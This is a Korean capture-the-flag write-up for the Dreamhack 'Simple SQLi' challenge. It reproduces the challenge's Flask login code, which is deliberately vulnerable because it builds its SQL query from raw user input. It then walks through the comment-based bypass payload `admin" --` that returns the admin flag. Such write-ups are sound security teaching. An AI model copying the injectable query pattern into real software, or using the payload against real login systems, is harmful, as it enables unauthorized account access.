 ```yaml
---
title: "[CTF] 드림핵 Simple SQLi"
date: 2025-09-18 21:00:00 +0900
categories: [CTF, Web]
tags: [CTF, SQLi]
description: "드림핵 Simple SQLi"
author: "송지민"
toc: true
---
```


## 문제 개요
이번 문제는 로그인 기능이 있는 간단한 웹앱으로, 입력값을 그대로 SQL 쿼리에 삽입하는 구조였다. 딱 봐도 기본적인 SQL 인젝션(SQLi)이 가능해 보였다.

- `/login` : POST로 받은 `userid`, `userpassword`를 이용해 다음과 같은 쿼리를 수행한다.  
  ```sql
  select * from users where userid="{userid}" and userpassword="{userpassword}"
  ```
- 쿼리 결과에서 `userid == 'admin'`이면 FLAG를 반환한다.

아래는 문제에서 제공된 **원본 소스코드 전체**다.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)
```

---

## 내가 실제로 푼 방법
소스코드를 확인하자마자 SQL 인젝션 포인트가 뻔히 보였다.

```sql
select * from users where userid="{userid}" and userpassword="{userpassword}"
```

조건에서 `userid == 'admin'`일 때 FLAG를 주기 때문에, admin 계정이 존재함을 알 수 있다. 그렇다면 `userid` 입력에 `"--`를 사용해 뒤를 주석 처리하면 쉽게 우회할 수 있다.

### 내가 사용한 입력값
- `userid`:  
  ```
  admin" --
  ```
- `userpassword`:  
  ```
  아무거나
  ```

### 최종 실행된 쿼리
```sql
select * from users where userid="admin" -- " and userpassword="아무거나"
```

이 구문은 뒤가 주석 처리되면서 단순히:
```sql
select * from users where userid="admin"
```
으로 축약된다.

결과적으로 admin 사용자의 데이터가 반환되고, FLAG를 획득할 수 있었다.

---

## 재현 흐름
1. 공격자: `/login`에서 userid에 `admin" --`, pw에 아무 값 입력  
2. 서버: 최종 쿼리는 `select * from users where userid="admin"`  
3. 쿼리 결과 admin 계정 반환  
4. 조건문 `if userid == 'admin'` → FLAG 출력  
5. 공격자: FLAG 확인 성공

---

## 왜 이게 가능했나
입력값을 이스케이프 없이 그대로 SQL 문자열에 삽입하여 기본적인 SQLi가 발생했기 때문이다.

---

## 마무리
simple_sqli 문제는 정말 기본적인 SQL 인젝션 예제였다. 가장 전형적인 `"--` 주석 처리 기법으로 admin 계정에 접근해 FLAG를 획득했다.
